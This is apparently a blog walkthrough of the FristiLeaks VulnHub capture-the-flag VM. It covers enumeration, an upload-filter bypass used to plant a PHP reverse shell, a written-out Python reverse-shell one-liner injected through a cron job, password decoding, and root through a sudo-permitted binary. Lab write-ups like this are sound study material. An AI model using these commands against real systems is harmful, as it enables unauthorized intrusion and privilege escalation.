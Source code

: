 ```yaml
---
layout: post
title: FristiLeaks CTF Walkthrough
date: 2017-07-29
categories:
  - security
  - ctf
  - walkthrough
tags:
  - fristileaks
  - vulnhub
---
```

[FristiLeaks](https://www.vulnhub.com/entry/fristileaks-13,133/) is a VM created by Ar0xA and has a difficulty rating of "basic". The goal is to get root access and read the flag file.

## Web Server Enumeration

Running Nmap (`nmap -p- -sS -sV -vv 10.2.0.104`) over the VM revealed that the only common port that was open, was port 80, which it identified as running Apache on CentOS:

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
```

A quick look at the `robots.txt` file reveals three directories, `/cola`. `/sisi` and `/beer`. Each one of these directories led to the same message delivered by [Obi-Wan](https://en.wikipedia.org/wiki/Obi-Wan_Kenobi)...

![3037440](/content/images/2017/07/3037440.jpg)

As the directory names all appeared to be names of drinks, I navigated to `/fristi` and found a login area.

## Login Area Analysis
The source code of the login area contained a comment in the markup which contained a base64 string, which when decoded produces an image containing the string `keKkeKKeKKeKkEkkEk`. I tried using this as a password with the user names `admin` and `fristi`, but neither worked.

Next, I ran dirb in the `/fristi` directory, which found an `uploads` directory and a file named `upload.php`.

Accessing `/fristi/upload.php` redirected me back to the login page, but analysing the response from the server in Burp showed that the redirect is placed after the markup generation, which allowed me to view the markup for the upload form:

```xml
<html>
<body>
<form action="do_upload.php" method="post" enctype="multipart/form-data">
    Select image to upload:<br>
    <input type ="file" name="fileToUpload" id="fileToUpload">
    <input type="submit" value="Upload Image" name="submit">
</form>
</body>
</html>
```

Uploading a PHP file using a local copy of this markup returned a message indicating only PNG, JPG and GIF files are accepted, which suggested that `do_upload.php` is vulnerable to an unauthenticated upload.

Using Burp, I re-sent the previous request containing the PHP file, but changed the file name to `test.php.gif` and set the content type to `image/gif`, which allowed the file to be uploaded.

To verify it had been uploaded, I navigated to `http://10.2.0.104/fristi/uploads/test.php.gif` and found that the PHP executed, rather than serving the file as an image.

## Acquiring Low Privilege Shell
To acquire a low privilege shell, I created a listener by running `ncat -vv -n -l -p 5555` and used the unauthenticated upload vulnerability to upload the [pentestmonkey PHP reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

Once the connection was established, I [upgraded to a fully interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/), verified which user the shell was running as (`apache`) and found that the home directory of `eezeepz` was readable and had a file named `notes.txt`, which contained the following:

```
Yo EZ,

I made it possible for you to do some automated checks,
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The
output goes to the file "cronresult" in /tmp/. It should
run every minute with my account privileges.

- Jerry
```

Some testing of the above resulted in an error being logged to the `cronresult` file, which read: `command did not start with /home/admin or /usr/bin`

As it was possible to use the binaries from within `/usr/bin`, I started another ncat listener on port 5556 and added the below line into the `runthis` file:

```shell_session
/usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.0.3",5556));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Once this was invoked by the cron job, it gave me a new shell as the `admin` user, which I then upgraded to an interactive TTY again.

## Admin User Shell
The first thing I checked with the admin shell was the `/home/admin` directory, which contained the binaries mentioned in the note that was previously found, as well as some additional text files and Python scripts:

```shell_session
[admin@localhost ~]$ ls -l
total 632
-rwxr-xr-x 1 admin     admin      45224 Nov 18  2015 cat
-rwxr-xr-x 1 admin     admin      48712 Nov 18  2015 chmod
-rw-r--r-- 1 admin     admin        737 Nov 18  2015 cronjob.py
-rw-r--r-- 1 admin     admin         21 Nov 18  2015 cryptedpass.txt
-rw-r--r-- 1 admin     admin        258 Nov 18  2015 cryptpass.py
-rwxr-xr-x 1 admin     admin      90544 Nov 18  2015 df
-rwxr-xr-x 1 admin     admin      24136 Nov 18  2015 echo
-rwxr-xr-x 1 admin     admin     163600 Nov 18  2015 egrep
-rwxr-xr-x 1 admin     admin     163600 Nov 18  2015 grep
-rwxr-xr-x 1 admin     admin      85304 Nov 18  2015 ps
-rw-r--r-- 1 fristigod fristigod     25 Nov 19  2015 whoisyourgodnow.txt
[admin@localhost ~]$
```

I made the assumption that the contents of `cryptedpass.txt` would have been encrypted using the `cryptpass.py` file, so proceeded to check that out:

```python
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```

The script is taking the first argument passed to it, encoding it as base64, reversing the order of the characters and then encoding using ROT13.

In order to grab the plain text content of the `cryptedpass.txt` file, I created a new altered version of the script to decrypt it, i.e. decode it using ROT13, reverse the character order back and then base64 decode it:

```python
import base64,codecs,sys

def decodeString(str):
    base64string= codecs.decode(str, 'rot13')
    return base64.b64decode(base64string[::-1])

cryptoResult=decodeString(sys.argv[1])
print cryptoResult
```

Running the script on `cryptedpass.txt` revealed a password:

```shell_session
[admin@localhost ~]$ python decryptpass.py $(cat cryptedpass.txt )
thisisalsopw123
```

There was also a file named `whoisyourgodnow.txt` which was owned by the `fristigod` user, which seemed to be encrypted / encoded. The script successfully reversed this too, and revealed the password for the `fristigod` account:

```shell_session
[admin@localhost ~]$ python decryptpass.py $(cat whoisyourgodnow.txt)
LetThereBeFristi!
[admin@localhost ~]$ su fristigod
Password:
bash-4.1$ whoami
fristigod
```

## Fristigod User Shell
Again, the first thing I did was check the user's home directory, but there was nothing there this time. Next I ran `sudo -l`to see what sudo permissions `fristigod` had, and found the following:

```shell_session
User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

Running it with no arguments revealed that it expects an argument that it identifies as `terminal_command`, which sounded promising, so I passed `whoami` to it and found that it is executing everything in the context of `root`:

```shell_session
bash-4.1$ sudo -u fristi ./doCom
Usage: ./program_name terminal_command ...
bash-4.1$ sudo -u fristi ./doCom whoami
root
bash-4.1$
```

With this, I then started a new bash shell as root, and found the flag in the `/root` directory.

```shell_session
bash-4.1$ sudo -u fristi ./doCom /bin/bash
bash-4.1# whoami
root
bash-4.1# cat /root/fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```

